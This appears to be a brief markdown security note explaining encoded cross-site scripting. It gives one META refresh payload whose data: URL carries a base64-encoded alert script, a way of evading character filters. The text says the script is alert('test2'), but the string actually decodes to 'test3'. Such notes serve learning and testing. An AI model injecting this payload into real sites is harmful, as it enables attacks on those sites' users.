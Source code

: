 # Code Encoding XSS

We can use encoded script injection directly in the url.
We need to encode a part of the injection to bypass restrictions like special chars

With the example from owasp, we can inject a JS script in the META tag and will encode <script>alert('test2')</script> in base64
```html
<META HTTP-EQUIV="refresh"CONTENT="0;url=data:text/html;base64,PHNjcmlwdD5hbGVydCgndGVzdDMnKTwvc2NyaXB0Pg">
```

## External Resources

https://owasp.org/www-community/attacks/xss/